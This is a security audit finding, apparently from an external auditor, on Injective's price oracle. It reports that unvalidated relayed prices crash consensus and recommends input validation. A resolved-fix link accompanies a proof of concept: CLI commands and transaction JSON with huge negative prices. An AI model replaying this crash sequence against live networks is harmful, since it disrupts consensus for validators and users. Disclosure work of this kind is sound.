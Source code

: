 ### IF-INJECTIVE-11
## Price feed does not validate prices, may crash consensus #331

**Status: resolved** (as of June 15, 2021)

**Severity**: High

**Type**: Distributed System Reliability and Fault Tolerance

**Difficulty**: High

_Surfaced from @informalsystems audit at hash baa69e1c366e9dc8727c7385fa120c08162b08e0_

_The crash is resolved in PR: https://github.com/InjectiveLabs/injective-core/pull/333_

_The general recommendation still applies._


`pricefeed_msg_server.go` does not validate the messages, so it is possible to feed it with arbitrary large (or small) values, e.g., `2^(255-60) - 1` and `-2^(255-60)+1`. When the price feed reports `-2^(255-60)+1` several times, consensus crashes. Note that such values are not necessary a sign of an attack, but can originate from faulty software.

**How to reproduce:**
Here is a sequence of commands to reproduce the issue on a clean installation (initialized with `./setup.sh`):

```sh
injectived tx oracle grant-price-feeder-privilege-proposal inj atom \
  inj1jcltmuhplrdcwp7stlr4hlhlhgd4htqhe4c0cs --deposit=10000000inj \
  --title="price feeder inj/atom" --description="price feeder inj/atom" \
  --from=user2 --chain-id=injective-888 --broadcast-mode=block --yes
sleep 2
injectived tx gov vote 1 yes --from=genesis --chain-id=injective-888 \
  --broadcast-mode=block --yes
sleep 15

injectived tx sign --from=inj1jcltmuhplrdcwp7stlr4hlhlhgd4htqhe4c0cs \
  --chain-id=injective-888 --output-document=signed1.json unsigned1.json
injectived tx broadcast --broadcast-mode=block signed1.json

injectived tx exchange deposit 1000.000000000000000000inj \
  --from=inj1dzqd00lfd4y4qy2pxa0dsdwzfnmsu27hgttswz --chain-id=injective-888 \
  --broadcast-mode=block --yes

injectived tx insurance create-insurance-fund --ticker=inj/atom \
  --quote-denom=inj --oracle-base=inj --oracle-quote=atom \
  --oracle-type=PriceFeed --expiry=1623325840 --initial-deposit=10000000inj \
  --from=genesis --chain-id=injective-888 --broadcast-mode=block --yes
sleep 1

injectived tx exchange instant-expiry-futures-market-launch \
  --ticker=inj/atom --quote-denom=inj --oracle-base=inj --oracle-quote=atom \
  --oracle-type=PriceFeed --expiry=1623325840 --maker-fee-rate=0.001 \
  --taker-fee-rate=0.001 --initial-margin-ratio=0.05 \
  --maintenance-margin-ratio=0.02 --min-price-tick-size=0.000000000000000001 \
  --min-quantity-tick-size=0.000000000000000001 --from=user1 \
  --chain-id=injective-888 --broadcast-mode=block --yes
sleep 2

injectived tx exchange deposit 1.000000000000000000inj \
  --from=inj1jcltmuhplrdcwp7stlr4hlhlhgd4htqhe4c0cs --chain-id=injective-888 \
  --broadcast-mode=block --yes

injectived tx sign --from=inj1dzqd00lfd4y4qy2pxa0dsdwzfnmsu27hgttswz \
  --chain-id=injective-888 --output-document=signed2.json unsigned2.json
injectived tx broadcast --broadcast-mode=block signed2.json

injectived tx sign --from=inj1jcltmuhplrdcwp7stlr4hlhlhgd4htqhe4c0cs \
  --chain-id=injective-888 --output-document=signed3.json unsigned3.json
injectived tx broadcast --broadcast-mode=block signed3.json

injectived tx sign --from=inj1jcltmuhplrdcwp7stlr4hlhlhgd4htqhe4c0cs \
  --chain-id=injective-888 --output-document=signed4.json unsigned4.json
injectived tx broadcast --broadcast-mode=block signed4.json

injectived tx sign --from=inj1jcltmuhplrdcwp7stlr4hlhlhgd4htqhe4c0cs \
  --chain-id=injective-888 --keyring-backend file unsigned10.json \
  >signed10.json && injectived tx broadcast signed10.json  -b block
```

(The above sequence is most likely not the shortest one possible.)

The unsigned json files are like follows:

```sh
cat unsigned1.json 
{"body": {"messages": [{"@type":
  "/injective.oracle.v1beta1.MsgRelayPriceFeedPrice",
  "sender": "inj1jcltmuhplrdcwp7stlr4hlhlhgd4htqhe4c0cs",
  "base": ["inj"], "quote": ["atom"], "price": ["1.000000000000000000"]}],
  "memo": "", "timeout_height": "0", "extension_options": [],
  "non_critical_extension_options": []}, "auth_info": {"signer_infos": [],
  "fee": {"amount": [], "gas_limit": "200000", "payer": "", "granter": ""}},
  "signatures": []}

cat unsigned2.json

{"body": {"messages": [{"@type":
"/injective.exchange.v1beta1.MsgCreateDerivativeLimitOrder", "sender":
"inj1dzqd00lfd4y4qy2pxa0dsdwzfnmsu27hgttswz", "order": {"market_id":
"0x7b01f008f84e7b87c93dc69efc0a0d860f09a17c5024e10de7b024dca45066bb",
"order_info": {"subaccount_id":
"0x6880D7bfE96D49501141375ED835C24cf70E2bD7000000000000000000000000",
"fee_recipient": "inj1dzqd00lfd4y4qy2pxa0dsdwzfnmsu27hgttswz", "price":
"0.000000000000000001", "quantity": "0.000000000000000001"}, "order_type":
"SELL", "margin": "0.000000000000000001", "trigger_price": null}}], "memo": "",
"timeout_height": "0", "extension_options": [],
"non_critical_extension_options": []}, "auth_info": {"signer_infos": [], "fee":
{"amount": [], "gas_limit": "200000", "payer": "", "granter": ""}},
"signatures": []}

cat unsigned3.json

{"body": {"messages": [{"@type":
"/injective.exchange.v1beta1.MsgCreateDerivativeLimitOrder", "sender":
"inj1jcltmuhplrdcwp7stlr4hlhlhgd4htqhe4c0cs", "order": {"market_id":
"0x7b01f008f84e7b87c93dc69efc0a0d860f09a17c5024e10de7b024dca45066bb",
"order_info": {"subaccount_id":
"0x963EBDf2e1f8DB8707D05FC75bfeFFBa1B5BaC17000000000000000000000000",
"fee_recipient": "inj1jcltmuhplrdcwp7stlr4hlhlhgd4htqhe4c0cs", "price":
"0.000000000000000001", "quantity": "0.000000000000000001"}, "order_type":
"BUY", "margin": "0.000000000000000021", "trigger_price": null}}], "memo": "",
"timeout_height": "0", "extension_options": [],
"non_critical_extension_options": []}, "auth_info": {"signer_infos": [], "fee":
{"amount": [], "gas_limit": "200000", "payer": "", "granter": ""}},
"signatures": []}

cat unsigned4.json

{"body": {"messages": [{"@type":
"/injective.oracle.v1beta1.MsgRelayPriceFeedPrice", "sender":
"inj1jcltmuhplrdcwp7stlr4hlhlhgd4htqhe4c0cs", "base": ["inj"], "quote":
["atom"], "price":
["-28948022309329048855892746252171976963317496166410141009864.396001978282409983"]}],
"memo": "", "timeout_height": "0", "extension_options": [],
"non_critical_extension_options": []}, "auth_info": {"signer_infos": [], "fee":
{"amount": [], "gas_limit": "200000", "payer": "", "granter": ""}},
"signatures": []}

cat unsigned10.json

{"body": {"messages": [{"@type":
"/injective.oracle.v1beta1.MsgRelayPriceFeedPrice", "sender":
"inj1jcltmuhplrdcwp7stlr4hlhlhgd4htqhe4c0cs", "base": ["inj"], "quote":
["atom"], "price":
["-50216813883093446110686315385661331328818843555712276103167.999999999999999999"]}],
"memo": "", "timeout_height": "0", "extension_options": [],
"non_critical_extension_options": []}, "auth_info": {"signer_infos": [], "fee":
{"amount": [], "gas_limit": "200000", "payer": "", "granter": ""}},
"signatures": []}

```


Example of the output in the server log:

``` ERRO[0256] CONSENSUS FAILURE!!!                          err="decimal out
of range; got: 259, max: 255" module=consensus stack="goroutine 114
...
...oracle/keeper.Keeper.GetCumulativePrice(0x0,
0x0, 0x0, 0x0, 0x0, 0x0, 0x2c74170, 0xc001478a50, 0x2cb3678, 0xc000e0c8d0,
```

**Recommendation:** Validate and filter the input that is received from the
price oracles. For instance, there is probably no economic sense in negative
prices. If it is not clear how to constrain the prices, you could receive price
values from `3 * f + 1` oracles, throw away the `f` smallest values and the `f`
largest values and average the rest. By doing so you can deal with Byzantine
oracles.

